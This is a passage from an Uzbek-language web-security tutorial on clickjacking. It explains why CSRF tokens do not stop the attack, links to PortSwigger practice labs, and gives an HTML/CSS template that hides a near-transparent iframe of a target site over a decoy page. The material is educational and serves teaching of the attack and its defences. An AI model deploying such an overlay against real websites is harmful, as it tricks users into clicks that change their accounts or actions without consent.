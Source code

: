 **CSRF** xujumlaridan odatda **CSRF tokenlar** bilan himoyalanilaniladi. Clickjacking dan himoyalanish uchun **CSRF tokenlar** ish bermaydi sababi Clickjackingda biz ro'yhatdan o'tilgan saytning UI qismini joylashtiramiz va u yerda **CSRF tokenlar** mavjud bo'ladi va barchasi bitta domenda amalga oshiriladi. **CSRF tokenlar** so'rovlarda joylashadi va serverga jo'natiladi. **Clickjacking** xujumida biz ko'rinmas iframe asosida xujumlarni amalga oshiramiz shu sababli **CSRF tokenlar** himoyalanish uchun yaroqsiz.

:::caution **Labaratoriyalar:**&#x20;

Agar Clickjacking zaifliklar**i** haqida bilsangiz pastdagi link orqali, haqiqiy web saytdek tuzilgan laboratoriyalarni yechishingiz mumkin.&#x20;

[Clickjacking labaratoriyalarini ko'rish≫](https://portswigger.net/web-security/all-labs#clickjacking)
:::

## Qanday qilib sodda Clickjacking xujumini amalga oshirish mumkin ? <a href="#qanday-qilib-sodda-clickjacking-xujumini-amalga-oshirish-mumkin" id="qanday-qilib-sodda-clickjacking-xujumini-amalga-oshirish-mumkin"></a>

Clickjacking xujumi ko'pincha CSS orqali tuzilgan web sahifalar hisoblanadi. Haker haqiqiy saytni sohta sayt tagiga joylashtiradi va sohta sayt orqali o'z xujumini amalga oshiradi. Teglarni va parametrlarni qanday to'g'ri ishlatishni quyida keltiramiz:

```html
<head>
    <style>
        #target_website {
            position:relative;
            width:128px;
            height:128px;
            opacity:0.00001;
            z-index:2;
            }
        #decoy_website {
            position:absolute;
            width:300px;
            height:400px;
            z-index:1;
            }
    </style>
</head>
...
<body>
    <div id="decoy_website">
    ...sohta web sayt kontenti...
    </div>
    <iframe id="target_website" src="https://vulnerable-website.com">
    </iframe>
</body>
```
